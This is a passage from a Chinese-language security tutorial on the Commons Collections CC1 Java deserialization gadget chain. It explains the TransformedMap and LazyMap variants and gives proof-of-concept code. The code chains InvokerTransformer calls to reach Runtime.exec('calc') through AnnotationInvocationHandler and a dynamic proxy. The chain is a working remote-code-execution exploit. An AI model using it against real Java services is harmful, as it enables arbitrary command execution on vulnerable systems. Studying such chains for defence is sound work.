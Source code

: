 ```java
            outputStream.writeObject(handler);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc1"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

}
```
网上大多数 payload 使用`Target.class`的 value 属性来触发，其实用什么都行，找任意一个有属性的注解都可以，这里还可以使用 `Generated.class` 的 comments 属性或者`Retention.class`的 value 属性
#### LazyMap
除了用 TransformedMap，还可以用 LazyMap 来触发，LazyMap 通过 get() 方法获取不到 key 的时候触发 Transformer
发现 AnnotationInvocationHandler 的 invoke() 方法可以触发 memberValues 的 get 方法
![](https://img-blog.csdnimg.cn/416f42e7a1524a40bb9027671f13d3d5.png)
如果这里的memberValues是个代理类，那么就会调用memberValues对应handler的invoke方法
这里需要用到动态代理，就是被动态代理的对象调用任意方法都会调用对应的InvocationHandler 的 invoke 方法

那构造的思路的就有了，在使用带有装饰器的 LazyMap 初始化 AnnotationInvocationHandler 之前，先使用 InvocationHandler 代理一下 LazyMap，这样反序列化 AnnotationInvocationHandler 时，调用 LazyMap 值的 setValue 方法之前会调用代理类的 invoke 方法，触发 LazyMap 的 get 方法

POC：
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class cc1_2 {
    public static void main(String[] args) throws ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        // 结合 ChainedTransformer
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });


        Map lazyMap = LazyMap.decorate(new HashMap(), chain);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // 创建携带着 LazyMap 的 AnnotationInvocationHandler 实例
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
        // 创建LazyMap的动态代理类实例
```